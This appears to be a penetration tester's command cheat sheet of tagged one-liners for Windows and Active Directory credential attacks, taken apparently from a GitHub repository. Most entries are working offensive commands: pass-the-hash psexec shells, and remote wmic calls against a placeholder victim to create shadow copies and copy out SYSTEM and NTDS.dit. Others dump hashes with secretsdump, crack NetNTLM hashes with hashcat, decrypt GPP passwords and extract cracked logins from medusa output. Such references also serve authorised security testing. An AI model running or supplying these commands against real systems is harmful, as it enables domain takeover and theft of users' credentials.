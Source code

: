 ### 1. PSExec with hashses
```
psexec.py -hashes [LM]:[NTLM] [DOM]/[USER]@[TARGET] "cmd.exe"
```
**- linux,impacket,remote command shell,hashes**
#### References:

https://www.coresecurity.com/corelabs-research/open-source-tools/impacket
__________
### 2. hashcat assuming that hc is an alias (kraken | pablo)
```
hc --gpu-temp-abort=100 --remove -m5500 netntlmv1.hash -a3 -1 '?u?l?d' '?1?1?1?1?1?1?1?1' -o hash.crack
```
**- linux,hashes,cracking**
#### References:

https://hashcat.net/wiki/
__________
### 3. hashcat types
```
500  MD5 Crypt $1 | 7400 SHA256 Crypt $5 | 1800 Sha512 Crypt $6
```
**- hashes,cracking,reference**
#### References:

https://hashcat.net/wiki/doku.php?id=example_hashes
__________
### 4. hashcat types
```
1000 NTLM | 3000 LM
```
**- hashes,cracking,reference**
#### References:

https://hashcat.net/wiki/doku.php?id=example_hashes
__________
### 5. hashcat types
```
1100 MScashv1 | 2100 MScashv2 (802.1X)
```
**- hashes,cracking,reference**
#### References:

https://hashcat.net/wiki/doku.php?id=example_hashes
__________
### 6. hashcat types
```
2500 WPA/WPA2
```
**- hashes,cracking,reference**
#### References:

https://hashcat.net/wiki/doku.php?id=example_hashes
__________
### 7. hashcat types
```
5600 NetNTLMv2 | 5500 NetNTLMv1 | 5400 = IKE-PSK SHA1 | 5300 = IKE-PSK MD5 |
```
**- hashes,cracking,reference**
#### References:

https://hashcat.net/wiki/doku.php?id=example_hashes
__________
### 8. List volume shadow copies
```
wmic /node:[victim] /user:"[domain]\[user]" /password:[pass] process call create "cmd /c vssadmin list shadows 2 &1 >> c:\temp\vss.txt"
```
**- Windows,hashes**
#### References:

https://yg.ht
https://technet.microsoft.com/en-us/library/cc754534(v=ws.11).aspx
https://blogs.technet.microsoft.com/askperf/2012/02/17/useful-wmic-queries/
http://bernardodamele.blogspot.co.uk/2011/12/dump-windows-password-hashes.html
__________
### 9. create volume shadow copy for c
```
wmic /node:[victim] /User:[domain]\[user]" /password:[pass] process call create "cmd /c vssadmin create shadow /for=C: 2 &1 >> C:\temp\create_vss.txt"
```
**- Windows,hashes**
#### References:

https://technet.microsoft.com/en-us/library/cc754534(v=ws.11).aspx
https://blogs.technet.microsoft.com/askperf/2012/02/17/useful-wmic-queries/
http://bernardodamele.blogspot.co.uk/2011/12/dump-windows-password-hashes.html
__________
### 10. copy system out of a volume shadow copy
```
wmic /node:[victim] /User:[domain]\[user]" /password:[pass] process call create "cmd /c copy \\?\GLOBALROOT\Device\[vsc]\Windows\System32\config\SYSTEM c:\temp\SYSTEM" 2 &1 >> c:\temp\copy_system.txt
```
**- Windows,hashes**
#### References:

https://technet.microsoft.com/en-us/library/cc754534(v=ws.11).aspx
https://blogs.technet.microsoft.com/askperf/2012/02/17/useful-wmic-queries/
http://bernardodamele.blogspot.co.uk/2011/12/dump-windows-password-hashes.html
__________
### 11. copy out ntds from the voulme shadow copy
```
wmic /node:[victim] /User:[domain]\[user]" /password:[pass] process call create "cmd /c copy \\?\GLOBALROOT\Device\[vsc]\NTDS\NTDS.dit c:\temp\ntds.dit" 2 &1 >> c:\temp\copy_ntds.txt
```
**- Windows,hashes**
#### References:

https://technet.microsoft.com/en-us/library/cc754534(v=ws.11).aspx
https://blogs.technet.microsoft.com/askperf/2012/02/17/useful-wmic-queries/
http://bernardodamele.blogspot.co.uk/2011/12/dump-windows-password-hashes.html
__________
### 12. Parse the SYSTEM and ntds with impacket
```
secretsdump.py  -hashes LMHASH:NTHASH -system ../SYSTEM -ntds ../ntds.dit local | tee hashes
```
**- Windows,impacket,hashes**
#### References:

https://www.coresecurity.com/corelabs-research/open-source-tools/impacket
__________
### 13. hash list
```
https://hashcat.net/wiki/doku.php?id=example_hashes
```
**- hashes,web address**
#### References:

https://hashcat.net/wiki/doku.php?id=example_hashes
__________
### 14. Hash byte lengths
```
hash lengths : MD5=16 | SHA1=20 | SHA256=32 | SHA512=64
```
**- hashes,reference**
#### References:

https://en.wikipedia.org/wiki/List_of_hash_functions
__________
### 15. Decrypt group policy preferences password aka Cpassword, use LAPS not GPP
```
/usr/bin/gpp-decrypt [cpassword]
```
**- smb,privilege escalation,hashes**
#### References:

http://carnal0wnage.attackresearch.com/2012/10/group-policy-preferences-and-getting.html
__________
### 16. Grab Succsessfull passwords from a tee'd medusa, bah to spaces in usernames
```
cat [file]  | grep "ACCOUNT FOUND" | grep -v 0x000072:STATUS_ACCOUNT_DISABLED | awk  -F User: '{print $2}' | awk -F : '{print $1, $2}' | awk -F \\[SUC '{print $1}' | awk -F " Password  " '{print $1":"$2}' | sort | sed s/' '/''/| uniq 
```
**- scanning,hashes**
#### References:

http://tldp.org/HOWTO/Bash-Prog-Intro-HOWTO.html
http://foofus.net/goons/jmk/medusa/medusa.html
__________
